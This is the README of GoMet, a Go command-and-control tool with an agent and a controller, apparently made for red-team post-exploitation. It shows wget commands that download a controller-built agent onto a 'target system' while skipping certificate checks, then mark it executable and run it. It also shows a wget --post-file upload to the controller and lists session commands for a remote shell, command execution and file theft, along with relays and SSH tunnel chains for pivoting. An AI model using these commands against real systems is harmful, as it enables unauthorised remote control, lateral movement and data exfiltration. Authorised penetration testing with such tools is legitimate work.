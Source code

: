 GoMet
=====

Simple multi-platform agent and its controller. 
The agent communicates with its controller through TLS tunnel.

#### Work in progress :)

Build
-----
Install Go (https://golang.org/dl/) and compile GoMet.

```
go build .
```

Basic usage
-----------

Launch GoMet

```
#> ./GoMet


	  ____       __  __      _
	 / ___| ___ |  \/  | ___| |_
	| |  _ / _ \| |\/| |/ _ \ __|
	| |_| | (_) | |  | |  __/ |_
	 \____|\___/|_|  |_|\___|\__|
                                      by Mimah

server > info
Local listener: 0.0.0.0:8888
Socks listener: 127.0.0.1:9050
HTTP magic: khRoKbh3AZSHbix
server >
server > help

Commands:
  clear         clear the screen
  exit          Exit
  generate      Generate an agent
  help          display help
  info          Print server information
  routes        List routes
  sessions      List sessions
```

On the target system download an agent for the corresponding OS and Architecture

```
wget https://<controller>:8888/khRoKbh3AZSHbix/agent/darwin/amd64 --no-check-certificate -O agent
````

The controller automatically builds an agent with the right information.

**Note**: 
"khRoKbh3AZSHbix" is a random magic generated by the controller, type "info" in the GoMet CLI to know it.
In this use-case you have to add --no-check-certificate option because the default TLS certificate is auto-signed.

**Available OS** (see Golang GOOS): 

    linux
    darwin
    windows
    solaris
    ...
    
**Available Architectures** (see Golang GOARCH):

    386
    amd64
    arm
    arm64
    ...

Launch the agent
```
chmod +x agent
./agent
```

In GoMet CLI we can see the new session created
```
server > New session 1 - <agent_hostname> - <agent_IP>:<agent_port> - darwin/amd64
```

Interact with a session
------------------------

```
server > sessions open 1
session 1 > help

Commands:
  cat           Print a file
  clear         clear the screen
  close         Close session
  connect       Connect a local port to a remote Address
  download      Download a file
  execute       Execute a command
  exit          Back to server
  getuid        Get user Id
  help          display help
  jobs          List jobs
  listen        Connect a remote port to a local Address
  ls            List files
  netstat       List connections
  ps            List processes
  pwd           Get current directory
  relay         Relay listen
  shell         Interactive remote shell
  streams       List streams
  upload        Upload a file


session 1 >
```

TCP forwarding
--------------
We can forward TCP connection through the agent TLS tunnel in both direction.

##### connect 
Listen a port locally (on the controller system) and forward it to a remote service.

##### listen
Listen a port remotely (on the agent system) and forward it to a local service.


Make a relay
------------
If the controller is not accessible from the target system (after network pivot) we can define a "relay" on another agent.
Then we can access the controller through the relay like the controller itself.

```
session 1 > relay
Remote Address: 0.0.0.0:9999
session 1 >
```

And from the target system

```
wget https://<relay>:9999/khRoKbh3AZSHbix/agent/darwin/amd64 --no-check-certificate -O agent
````

Sharing files with the controller
---------------------------------
The controller can share files. 

Copy a file in the share directory and download it with the magic URL 
```
wget https://<controller>:8888/khRoKbh3AZSHbix/my_file --no-check-certificate
```

We can also upload a file to the controller
```
wget https://<controller>:8888/khRoKbh3AZSHbix/other_file --no-check-certificate --post-file file
```

Generate an agent with the CLI
------------------------------
```
server > generate
OS: windows
Arch: amd64
Host: <controller>:8888
HTTP proxy:
HTTPS proxy:
Proxy username:
Proxy password:
Generated agent URL: https://<controller>:8888/Ye8o14kw1rpMJ8f/ySUxt7YT8X5fyat
server >
```

Configuration files
-------------------
Default configuration is defined in **config/config.json** file.
```
{
  "listenAddr":"0.0.0.0:8888",

  "socks": {
    "enable": true,
    "addr": "127.0.0.1:9050"
  },

  "api": {
    "enable": false,
    "addr": "127.0.0.1:9000"
  }
}
```

Define a tunnel
---------------
If we want to listen through a tunnel we can define it in the configuration file. SSH only actually.
```
{
  "listenAddr":"0.0.0.0:8888",

  "socks": {
    "enable": true,
    "addr": "127.0.0.1:9050"
  },

  "tunnel": {
    "listenAddr":"<exit_node>:8888",
    "nodes": [
      {
        "type":"ssh",
        "host": "<first_node>:22",
        "username": "user",
        "password": "user"
      },
      {
        "type":"ssh",
        "host": "<second_node>:22",
        "username": "user",
        "password": "user"
      },
      {
        "type":"ssh",
        "host": "<exit_node>:22",
        "username": "user",
        "password": "user"
      }
    ]
  }
}
```

Custom TLS certificate
----------------------
A default certificate is generated in the config directory. You can replace it with yours.

**Warning:** If you change the certificate you have rebuild all the agents because the certificate hash will not be the same.

HTTP API
--------
Work in progress